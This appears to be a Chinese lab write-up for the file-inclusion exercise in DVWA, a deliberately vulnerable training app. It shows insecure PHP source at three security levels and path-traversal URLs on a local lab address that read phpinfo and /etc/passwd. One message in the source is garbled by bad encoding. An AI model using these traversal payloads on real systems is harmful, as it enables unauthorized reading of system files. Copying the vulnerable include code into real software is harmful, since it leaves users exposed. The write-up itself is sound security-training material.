 #dvwacn之九文件包含

dvwacn之文件包含物理路径

```
root@webserver:/var/www/dvwacn/vulnerabilities/fi/source# ls
high.php  low.php  medium.php
```


##安全级别

- low.php

```
<?php

	$file = $_GET['page']; //The page we wish to display 

?>

```

- medium.php 

```
<?php

	$file = $_GET['page']; // The page we wish to display 

	// Bad input validation
	$file = str_replace("http://", "", $file);
	$file = str_replace("https://", "", $file);		


?>
```


- high.php

``` 
<?php
		
	$file = $_GET['page']; //The page we wish to display 

	// Only allow include.php
	if ( $file != "include.php" ) {
		echo "´: τ¼þδ֒µ½£¡";
		exit;
	}
		
?>
```

##包含phpinfo.php文件

http://192.168.56.80/dvwacn/vulnerabilities/fi/?page=../../phpinfo.php

页面将返回phpinfo信息

##包含include.txt

http://192.168.56.80/dvwacn/vulnerabilities/fi/?page=../../include.txt

页面返回

```
here is file inclution test!!!!!! code is excute here
```

##包含/etc/passwd文件

http://192.168.56.80/dvwacn/vulnerabilities/fi/?page=../../../../../etc/passwd

页面返回

```
root:x:0:0:root:/root:/bin/bash
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
...
```